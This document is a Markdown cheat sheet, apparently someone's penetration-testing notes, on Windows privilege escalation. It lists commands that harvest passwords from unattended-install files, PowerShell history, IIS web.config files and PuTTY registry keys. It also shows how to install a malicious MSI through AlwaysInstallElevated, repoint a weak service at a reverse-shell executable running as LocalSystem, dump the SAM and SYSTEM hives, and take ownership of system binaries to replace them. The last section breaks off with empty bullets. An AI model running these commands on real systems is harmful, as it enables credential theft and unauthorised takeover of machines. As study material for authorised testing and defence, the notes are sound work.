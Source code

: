# Looking for Passwords:
## unattended Windows Installations:
	+ C:\Unattend.xml
	+ C:\Windows\Panther\Unattend.xml
	+ C:\Windows\Panther\Unattend\Unattend.xml
	+ C:\Windows\system32\sysprep.inf
	+ C:\Windows\system32\sysprep\sysprep.xml
## Powershell History:
```ps1
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Stored Creds:
```ps1
# list the sotred credentials
cmdkey /list
# run command as another user:
runas /savecred /user:admin cmd.exe
```
## IIS Configurations:
```ps1
# looking for "web.config"
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
# quickly find database Creds:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Creds from "PuTTy"
```ps1
reg query HKEY_CURRENT_USER\Software\<creatorOFputty>\PuTTY\Sessions\ /f "Proxy" /s
```


# Scheduled Tasks:
```ps1
# list of Scheduled Tasks:
schtasks
# for more details on specific task:
schtasks /query /tn vulntask /fo list /v
# check permissions on its binary:
icacls c:\Path\to\executableFile
get-acl c:\Path\to\executableFile
```
# Always Install Elevated:
+ check registry:
	+ C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
	+ C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer	
+ install package from commandLine:
	+ C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi


# Services:
Windows services are managed by the **Service Control Manager (SCM)**. The SCM is a process in charge of **managing the state of services** as needed, checking the current status of any given service and generally providing a way to configure services.

### + check Insecure Permissions on Service Executable
	query on service to get information:
	```ps1
	# look for BINARY_PATH_NAME & SERVICE_START_NAME and check Binary for overwriting it
	C:\> sc qc apphostsvc
	# start & stop a service
	C:\> sc stop windowsscheduler
	C:\> sc start windowsscheduler
	```
	
### + Insecure Service Permissions: 	
there is a chance even if binary is well protected on DACL. we should check service DACL(not binary DACL)
```ps1
# check for service reconfiguration
accesschk64.exe -qlc VULNservice
# reconfigure the service to point to our executable. 
sc config VULNservice binPath= "C:\PATH\TO\reverseSHELL.exe" obj= LocalSystem
```

### + Unquoted Service Paths:
```ps1
# query the service and see if the executable path is unquoted (BINARY_PATH_NAME)
C:\> sc qc "vncserver"
```

### You can look for Services in Registry:
	 HKLM\SYSTEM\CurrentControlSet\Services\	
	
### + Know that: 
Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service,


# Dangerous Tokens
find all the windows tokens with their meanings [Here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants), find more about hot to exploit it [here](https://github.com/gtworek/Priv2Admin)

## SeBackup / SeRestore:
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. attacker can copy the SAM and SYSTEM registry hives to extract the local Administrator's password hash.
- backup SAM and SYSTEM hashes:
	```ps1
	reg save hklm\system C:\anywhere\system.hive
	reg save hklm\sam C:\anywhere\sam.hive
	```


## SeTakeOwnership:	
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys. search for a service running as SYSTEM and take ownership of the service's executable.Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need
```ps1
# take the executable ownership whit this:
takeown /f C:\Windows\System32\SomeThing.exe
# give your user full permissions, After this, we will replace the Binary:
icacls C:\Windows\System32\SomeThing.exe /grant <Username>:F
```

## SeImpersonate / SeAssignPrimaryToken:
lets keep it short:)))). use this binaries to get systemSHELL:
	+ R
	+ 
	+ 

